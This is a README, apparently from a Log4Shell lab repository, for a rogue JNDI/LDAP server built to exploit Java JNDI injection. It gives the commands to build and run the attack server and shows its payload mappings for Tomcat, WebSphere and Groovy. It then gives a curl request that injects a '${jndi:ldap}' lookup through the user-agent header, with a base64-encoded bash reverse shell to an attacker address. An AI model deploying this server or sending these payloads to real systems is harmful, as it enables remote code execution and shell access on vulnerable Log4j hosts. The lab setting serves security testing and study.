

# Rogue JNDI Server
A malicious LDAP server for JNDI injection attacks created by the [Veracode research team](https://github.com/veracode-research).

## Updates
* Extended Tomcat controller LDAP mapping URIs to cover direct b64 encoded strings requests for PowerShell and Bash.
    * `/o=tomcat`, `/o=tomcat,pwshb64cmd=*`, `/o=tomcat,bashb64cmd=*`
* Updated `artsploit` utilities:
    * Created a method to take PowerShell or Bash b64 encoded strings and pack it so that it can be executed as a `java.lang.Runtime.exec()` payload.
    * Integrated [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit/blob/master/src/main/java/jndi/LDAPRefServer.java#L115) method to convert bytes to hex to show serialized data before it gets sent to the client.

## Deploy Rogue JNDI Server

clone GitHub project

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```

We are going to build our rogue-jndi server to apply the recent modifications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

Build docker image

```bash
cd log4jshell-lab/attacker/rogue-jndi/

docker build . -t rogue-jndi
```

## Run Project

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

```
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8888
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.2.6:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,pwshb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.2.6:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.2.6:1389/o=reference to artsploit.controllers.RemoteReference
```

## Test JNDI Lookup - Bash B64 Encoded Command

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjIuNi80NDMgMD4mMQ%3D%3D}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```



# References
* https://github.com/veracode-research/rogue-jndi
* https://www.jackson-t.ca/runtime-exec-payloads.html